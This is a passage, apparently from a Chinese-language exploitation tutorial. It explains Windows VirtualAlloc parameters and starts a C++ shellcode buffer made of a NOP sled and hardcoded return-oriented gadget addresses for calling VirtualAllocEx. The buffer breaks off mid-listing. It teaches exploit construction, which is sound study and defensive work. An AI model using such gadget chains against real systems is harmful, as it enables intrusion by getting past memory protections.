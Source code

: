 函数中各参数的意义为：
- lpAddress，申请内存区域的地址，如果这个参数是 NULL，系统将会决定分配内存区域的位置，并且按 64KB 向上取整。
- dwSize，申请内存区域的大小。
- flAllocationType，申请内存的类型。
- flProtect，申请内存的访问控制类型，如读、写、执行等权限。

内存申请成功时函数返回申请内存的起始地址，申请失败时返回 NULL。

我们将用如下代码演示如何利用 VirtualAlloc 函数申请具有可执行权限的内存，并利用memcpy 函数将 shellcode 复制到申请的内存中执行。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
```